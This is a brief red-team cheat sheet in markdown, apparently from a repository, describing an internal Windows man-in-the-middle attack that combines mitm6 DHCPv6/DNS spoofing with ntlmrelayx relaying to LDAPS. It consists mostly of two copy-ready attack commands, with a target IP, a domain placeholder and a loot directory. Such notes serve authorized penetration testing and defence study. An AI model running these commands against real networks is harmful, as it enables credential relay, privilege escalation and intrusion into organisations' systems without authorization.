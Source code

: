 # REDTEAM
## INTERNAL WINDOWS
### --> MITM ATTACKS
#### 1. *Mitm6 + NTLM RELAY*
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Description:** The attack enables to forge fake DNS Server, by replaying to DHCPv6 requests in internal network. The tool can be combined with ntlmrelay to further escalate privileges.
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<br/><br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**Repositry:** https://github.com/fox-it/mitm6<br/><br/>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</br>

Description | Commands
------------ | -------------
*First set up ntlmrelay* | `ntlmrelayx.py -6 -t ldaps://10.0.10.26 -wh <DOMAIN> -l loot`
*Start mitm6 on the same network that hosts in* | `mitm6.py -d <DOMAIN>`
